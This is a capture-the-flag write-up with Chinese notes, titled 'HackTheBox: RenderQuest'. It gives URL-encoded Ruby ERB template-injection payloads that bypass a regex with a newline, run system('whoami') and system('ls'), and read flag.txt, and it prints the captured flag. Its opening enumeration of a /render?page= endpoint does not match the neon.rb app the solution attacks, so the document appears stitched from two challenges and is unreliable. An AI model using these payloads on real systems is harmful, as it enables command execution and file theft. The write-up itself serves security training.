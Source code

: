 ```yaml
---
title: 'HackTheBox: RenderQuest writeup'
disqus: hackmd
---
```


HackTheBox: RenderQuest writeup
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/challenges/RenderQuest

### Initial Enumeration

●Start Machine: 
http://94.237.57.59:38703 \
(301) http://94.237.57.59:38703/render?page=index.tpl
![94.237.57.59_38703_render_page=index.tpl](https://hackmd.io/_uploads/Skb9oZTWC.png)


Submit: CHW
![image](https://hackmd.io/_uploads/B1ckgza-R.png)
> http://94.237.57.59:38703/render?use_remote=true&page=CHW
> 500 (Internal Server Error)

## Solution

### 1.Code Review
neon.rb
```ruby=
class NeonControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    @neon = "Glow With The Flow"
    erb :'index'
  end

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end

end
```

提交的@neon 需要符合正規表達式: `/^[0-9a-z ]+$/i`
1. 正則表達式的開始和結束都被斜槓 / 包圍
2. ^ 符號表示匹配字串的開頭
3. `[0-9a-z ] 匹配所有數字、小寫字母和空格
4. +表示至少有一個或多個符合前面指定的字符
5. $ 表示匹配字串的結尾
6. i 表示不區分大小寫

> ERB (Ruby)
> 想嘗試Ruby SSTI

### 2. SSTI
```
neon=<%= 7*7 %>
```
> 不符合正表達式，肯定會被擋

● [Ruby Bypass regular expression](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/) : abc\n<%= 7*7 %>
> 嘗試過\n ，無法識別
> URL-encoded: %0A

### 3. %0A bypass regular expression
#### 3.1 neon=chw%0A<%= 7*7 %>
● 使用chw%0A<% 7*7 %>
```
neon=chw%0A%3C%257%2A7%25%3E
```
![image](https://hackmd.io/_uploads/SylqO_L-C.png)
> (1) 在網頁上直接輸入會被視為字元，使用 BurpSuite Repeater\
> (2) 嘗試 double encode

● 嘗試 double encode
```
neon=chw%0A%253C%2525%25207%252A7%2520%2525%253E
```
![image](https://hackmd.io/_uploads/HkpyWt8bA.png)

> 顯示 encode一次的值，代表:
> (1) 輸入有效
> (2) 確認系統會decode 一次
> Final 試到天荒地老，後來才發現使用 <%= 才會顯示結果

● chw%0A<%= 7*7 %>
```
neon=chw%0A%3C%25%3D7%2A7%25%3E
```
![image](https://hackmd.io/_uploads/rJoROu8-0.png)
> 成功顯示 49。
> 代表成功執行ERB，可以進行SSTI

#### 3.2 Execute Command
● <%= system("whoami") %>
```
neon=chw%0A%3C%25%3D%20system%28%22whoami%22%29%20%25%3E
```
![image](https://hackmd.io/_uploads/Syrxj_8WR.png)
> 誤以為user: true

● <%= system("ls") %>
```
neon=chw%0A%3C%25%3D%20system%28%22ls%22%29%20%25%3E
```
![image](https://hackmd.io/_uploads/rkCYo_LZC.png)
> True again.
> 改用Ruby 語法

### 4. Read Files In Ruby: File.read('flag.txt')
● [Read Files In Ruby](https://www.rubyguides.com/2015/05/working-with-files-ruby/): **File.read/write/open('<file name>')**

● <%= File.read('/flag.txt') %>
```
neon=chw%0A%3C%25%3D%20File.read%28%27%2Fflag.txt%27%29%20%25%3E
```
![image](https://hackmd.io/_uploads/B1iphuLb0.png)
> 顯示500 Internal Server Error

 ![image](https://hackmd.io/_uploads/BJAC6dUb0.png)
> 猜測: 沒有權限訪問根目錄

### 5. Get FLAG

● **<%= File.read('flag.txt') %>** 
```
neon=chw%0A%3C%25%3D%20File.read%28%27flag.txt%27%29%20%25%3E
```  
![image](https://hackmd.io/_uploads/S1jvnOUb0.png)

> **FLAG: HTB{r3pl4c3m3n7_s3cur1ty}**
    
###### tags: `Web` `CTF` `SSTI`

